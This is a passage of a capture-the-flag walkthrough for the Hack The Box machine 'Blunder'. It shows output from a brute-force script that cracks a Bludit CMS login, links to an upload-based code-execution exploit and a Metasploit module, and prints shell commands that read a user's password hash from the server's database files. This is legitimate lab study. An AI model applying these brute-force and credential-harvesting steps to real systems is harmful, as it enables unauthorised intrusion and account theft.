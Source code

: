 ```bash
root@kali:~/CTF/HTB/Boxes/Blunder# python3 exploit.py 
[*] Trying: the
[*] Trying: Load
[*] Trying: Plugins
[*] Trying: and
[*] Trying: for
.
.
.

[*] Trying: fictional
[*] Trying: character
[*] Trying: RolandDeschain

SUCCESS: Password found!
Use fergus:RolandDeschain to login.
```

We got the password.RolandDeschain

I logged in with `fergus : RolandDeschain` 

![Untitled](/img/htb-blunder/Untitled%205.png)

## Getting Shell

[https://github.com/bludit/bludit/issues/1081](https://github.com/bludit/bludit/issues/1081)

## Method 1:

![Untitled](/img/htb-blunder/Untitled%206.png)

![Untitled](/img/htb-blunder/Untitled%207.png)

## Method 2 (Metasploit)

There is a metasploit module too

> [https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec](https://www.rapid7.com/db/modules/exploit/linux/http/bludit_upload_images_exec)

![Untitled](/img/htb-blunder/Untitled%208.png)

## Getting User Hugo

After some enumeration, I found user `hugo` hash in `/var/www/bludit-3.10.0a/bl-content/databases`

```bash
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ ls
ls
categories.php	plugins       site.php	  tags.php
pages.php	security.php  syslog.php  users.php
www-data@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ cat users.php
cat users.php
[?php defined('BLUDIT') or die('Bludit CMS.'); ?](?php defined('BLUDIT') or die('Bludit CMS.'); ?)
{
    "admin": {
        "nickname": "Hugo",
        "firstName": "Hugo",
        "lastName": "",
        "role": "User",
        "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",
        "email": "",
```